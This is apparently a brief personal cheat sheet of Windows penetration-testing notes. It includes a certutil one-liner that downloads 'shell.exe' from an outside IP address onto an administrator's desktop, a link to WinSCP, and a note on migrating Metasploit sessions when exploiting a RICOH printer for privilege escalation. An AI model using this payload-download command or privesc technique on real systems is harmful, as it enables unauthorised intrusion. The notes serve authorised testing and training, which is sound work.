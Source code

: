 # Windows

## Useful commands

- download a file, like wget in linux

  - `certutil -urlcache -f http://10.10.14.4/shell.exe c:\users\administrator\desktop\sh.exe`

  - in powershell:
    - ``

## Windows tools

- [WinSCP](https://winscp.net/eng/index.php) - Copy file between a local computer and remote servers using FTP, FTPS, SCP, SFTP, WebDAV or S3 file transfer protocols

## Windows privesc

- RICOH printer (msf module, if we are on process with session 0 (ps list), that service is non-interactive, so we migrate to interactive (session 1) process)

